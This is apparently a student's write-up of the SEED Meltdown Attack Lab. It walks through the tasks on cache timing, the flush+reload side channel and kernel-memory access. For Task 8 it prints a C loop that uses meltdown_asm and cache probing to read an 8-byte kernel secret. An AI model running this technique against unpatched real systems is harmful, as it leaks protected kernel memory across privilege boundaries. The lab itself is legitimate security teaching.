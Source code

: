 ```yaml
---
title: Meltdown Attack Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Meltdown_Attack.pdf

# Task 1

To compile `CacheTime.c` successfully, you should add 2 lines first to resolve the type alias:

```c
#include <stdio.h>
#include <stdint.h>
```

Yes. Obviously, the accesses of `array[3*4096]` and `array[7*4096]` are extremely faster than that of the other elements, even though the access times of each element seems to be randomly various among 10 attempts.

# Task 2

Somehow it always finds the correct secret. So I modify the `CACHE_HIT_THRESHOLD` from 80 to 60, It begins to fail to find the secret with nothing output for a few times.

# Task 3

```txt
[  901.703115] secret data address:f881c000
```

# Task 4

No. I cannot access the kernel memory from user space. After executing the test program, the error message of *Segmentation fault* appears.

# Task 5

It handles the exception and prints

```txt
Memory access violation!
Program continues to execute.
```


# Task 6

Yes, I get the outputs

```txt
Memory access violation!
array[7*4096 + 1024] is in cache.
The Secret = 7.
```


# Task 7

## Task 7.1

It shows

```
Memory access violation!
```

No useful information output.

## Task 7.2

Add the code in a place between `flushSideChannel()` and `sigsetjmp()`. Anyway, It doesn't work as well.

## Task 7.3

Somehow, it still fails to steal the actual secret value. Even though I tried many times and modified the loop number.

## Task 8

Yes, it prints the first letter of the secret message.

To get the entire 8-byte secret message. I modified the code: nest the code in the main function into such a loop:

```c
for (int k = 0; k < 8; k++)
{

    memset(scores, 0, sizeof(scores));

    flushSideChannel();

    // Retry 1000 times on the same address.

    for (i = 0; i < 1000; i++)
    {

        ret = pread(fd, NULL, 0, 0);

        if (ret < 0)
        {

            perror("pread");

            break;
        }

        // Flush the probing array

        for (j = 0; j < 256; j++)

            _mm_clflush(&array[j * 4096 + DELTA]);

        if (sigsetjmp(jbuf, 1) == 0)
        {
            meltdown_asm(0xf881c000 + k);
        }

        reloadSideChannelImproved();
    }

    // Find the index with the highest score.

    int max = 0;

    for (i = 0; i < 256; i++)
    {

        if (scores[max] < scores[i])
            max = i;
    }

    printf("The secret value is %d %c\n", max, max);

    printf("The number of hits is %d\n", scores[max]);
}
```

And finally, I successfully stole the secret message:

![](./attack.png)




